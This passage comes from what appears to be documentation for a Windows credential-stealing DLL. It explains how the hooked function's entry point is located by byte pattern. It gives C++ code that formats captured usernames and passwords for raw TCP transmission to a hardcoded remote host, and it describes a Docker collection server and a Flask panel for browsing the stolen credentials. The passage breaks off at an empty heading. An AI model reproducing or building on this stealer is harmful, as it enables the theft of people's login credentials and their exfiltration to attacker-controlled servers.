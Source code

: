 **why -16:**
- pattern is found **inside** the function
- function entry point is 16 bytes **before** the pattern
- this gives us the actual function start address

## credential transmission

### tcp client implementation

the stealer sends credentials via tcp to a remote server instead of writing to disk:

```cpp
BOOL SendCredentials(const wchar_t* username, const wchar_t* password)
{
    // convert unicode to ascii for transmission
    char username_ascii[256] = {0};
    char password_ascii[256] = {0};
    WideCharToMultiByte(CP_UTF8, 0, username, -1, username_ascii, 256, NULL, NULL);
    WideCharToMultiByte(CP_UTF8, 0, password, -1, password_ascii, 256, NULL, NULL);
    
    // format exactly like netcat: "username:password"
    char msg[512];
    sprintf_s(msg, sizeof(msg), "%s:%s", username_ascii, password_ascii);
    
    // tcp connection to 10.0.0.80:9999
    // ... socket code ...
}
```

**transmission details:**
- **format**: `username:password` (simple colon-separated)
- **target**: hardcoded to `10.0.0.80:9999`
- **protocol**: raw tcp socket connection
- **encoding**: utf-8 for international characters
- **behavior**: fire-and-forget (no error handling for network failures)

### docker-based server

the receiving server runs in a docker container with two components:

**server.py** (port 9999):
- listens for tcp connections from the dll
- parses `username:password` format
- saves credentials to `creds.json` with timestamps and source ip

**webapp.py** (port 8080):
- flask web interface to view captured credentials
- login protected (password: `BallsInYourFace69!`)
- provides json api and web ui for credential review
- allows filtering by source ip address

## hook construction
